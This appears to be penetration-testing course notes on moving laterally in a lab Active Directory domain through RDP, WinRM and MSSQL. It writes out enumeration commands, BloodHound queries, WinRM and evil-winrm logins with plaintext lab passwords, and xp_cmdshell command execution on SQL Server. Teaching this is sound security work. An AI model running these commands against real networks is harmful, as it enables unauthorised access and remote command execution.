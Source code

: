 # Privileged Access
Once we gain a foothold in the domain, our goal shifts to advancing our position further by moving laterally or vertically to obtain access to other hosts, and eventually achieve domain compromise or some other goal, depending on the aim of the assessment. To achieve this, there are several ways we can move laterally. Typically, if we take over an account with local admin rights over a host, or set of hosts, we can perform a Pass-the-Hash attack to authenticate via the SMB protocol.

But what if we don't yet have local admin rights on any hosts in the domain?

There are several other ways we can move around a Windows domain:

- Remote Desktop Protocol (RDP) - is a remote access/management protocol that gives us GUI access to a target host

- PowerShell Remoting - also referred to as PSRemoting or Windows Remote Management (WinRM) access, is a remote access protocol that allows us to run commands or enter an interactive command-line session on a remote host using PowerShell

- MSSQL Server - an account with sysadmin privileges on an SQL Server instance can log into the instance remotely and execute queries against the database. This access can be used to run operating system commands in the context of the SQL Server service account through various methods

## Remote Desktop
### Enumerating the Remote Desktop Users Group
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

### Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound
If we gain control over a user through an attack such as LLMNR/NBT-NS Response Spoofing or Kerberoasting, we can search for the username in BloodHound to check what type of remote access rights they have either directly or inherited via group membership under Execution Rights on the Node Info tab.

We could also check the Analysis tab and run the pre-built queries Find Workstations where Domain Users can RDP or Find Servers where Domain Users can RDP

## WinRM
### Enumerating the Remote Management Users Group
```
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

### Using the Cypher Query in BloodHound
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

### Establishing WinRM Session from Windows
```
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
```

### Connecting to a Target with Evil-WinRM and Valid Credentials
```
evil-winrm -i 10.129.201.234 -u forend
```

## SQL Server Admin
More often than not, we will encounter SQL servers in the environments we face. It is common to find user and service accounts set up with sysadmin privileges on a given SQL server instance. We may obtain credentials for an account with this access via Kerberoasting (common) or others such as LLMNR/NBT-NS Response Spoofing or password spraying. Another way that you may find SQL server credentials is using the tool Snaffler to find web.config or other types of configuration files that contain SQL server connection strings.

BloodHound, once again, is a great bet for finding this type of access via the SQLAdmin edge. We can check for SQL Admin Rights in the Node Info tab for a given user or use this custom Cypher query to search:

### Using a Custom Cypher Query to Check for SQL Admin Rights in BloodHound
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

### Enumerating MSSQL Instances with PowerUpSQL
```
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```

```
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

### Running mssqlclient.py Against the Target
```
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

We could then choose enable_xp_cmdshell to enable the xp_cmdshell stored procedure which allows for one to execute operating system commands via the database if the account in question has the proper access rights.
### Choosing enable_xp_cmdshell
```
enable_xp_cmdshell
```

```
xp_cmdshell whoami /priv
```